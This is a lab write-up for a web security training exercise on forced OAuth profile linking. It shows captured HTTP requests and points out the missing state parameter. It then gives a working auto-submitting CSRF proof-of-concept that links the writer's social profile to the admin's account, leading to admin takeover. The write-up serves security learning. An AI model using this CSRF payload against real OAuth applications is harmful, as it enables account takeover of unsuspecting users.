








# Forced OAuth profile linking

## Lab Description :


## Solution :
So as per the lab desc, we have these 2 information

Blog website account: ``wiener:peter``

Social media profile: ``peter.wiener:hotdog``

The admin user will open anything we send from the exploit server and they always have an active session on the blog website.
Recon

The login page has an option to login via traditional username:password & also an option to login via social media !



First login as wiener, we have this option to attach our social media handle.



On clicking Attach a social profile, the client application sends a Authoriation request to the Oauth identity provider.
```html
GET /auth?client_id=zd0z0mcs05h6xy1izs6qs&redirect_uri=https://0a2600ea040904c4826f158800f4006c.web-security-academy.net/oauth-linking&response_type=code&scope=openid%20profile%20email HTTP/2
Host: oauth-0acb00670438047f820f135d028000c6.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: https://0a2600ea040904c4826f158800f4006c.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
```

Note that this Oauth flow to add social media does not contain any state= parameter. So this is vulnerable to CSRF attacks

Now the Oauth service redirects us to the social media login page & asks us for username and password.



The request sent is as follows,
```html
POST /interaction/h_HZHJFwu5SNlmERnvvAu/login HTTP/1.1
Host: oauth-0afa007604f736b180a029a002b300ad.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://oauth-0afa007604f736b180a029a002b300ad.oauth-server.net
Connection: close
Referer: https://oauth-0afa007604f736b180a029a002b300ad.oauth-server.net/interaction/h_HZHJFwu5SNlmERnvvAu/login
Cookie: _interaction=h_HZHJFwu5SNlmERnvvAu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

username=peter.wiener&password=hotdog
```

Now it asks for our consent to accept the information that will be used.



The next follow-up GET request to /oauth-linking contains the ?code= parameter which contains the Authorization token.
```html
GET /oauth-linking?code=eWEB9aYNxO0Ls88fGmWdu1vQEG_JsniFHJ4kvpIRf2f HTTP/1.1
Host: 0a2600ea040904c4826f158800f4006c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600ea040904c4826f158800f4006c.web-security-academy.net/
Connection: close
Cookie: session=Z5diXRZYGorFvLSQFaLVfzZdRHtnzitH
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
```
Once the flow is over, we have added our social media account & now we can login to our account via social media.



#### Exploitation

Since the Oauth flow for adding social media to our account doesn't have any state= parameter, we can perform a csrf attack to link somebody else's social media to our account.

Then we can login to our account via social media & we would have logged in to the victim's account who clicked our CSRF POC script.

Steps -
 . Login as wiener.

 . Click add social media option & intercept the request flow.

 . Intercept the request after entering consent to permissions that were required. A GET request to ``/oauth-linking?code=<value>`` is sent. Drop the particular request so that the code is fresh and not used by wiener.

 . Create a CSRF POC for the request containing the authorization code.
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a81007904223666800f2b9b00a500ae.web-security-academy.net/oauth-linking">
      <input type="hidden" name="code" value="n4hzKYNoh4upso6bDZys&#95;fjVFI6zf&#45;MURAjNHLutcrP" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Send the exploit to admin via the exploit server. Now logout and login via Login with social media option. We have now successfullt logged in as administrator



Click on the admin panel and delete the user carlos to solve the lab.



#### Visit The Next Page For The Next Level :)
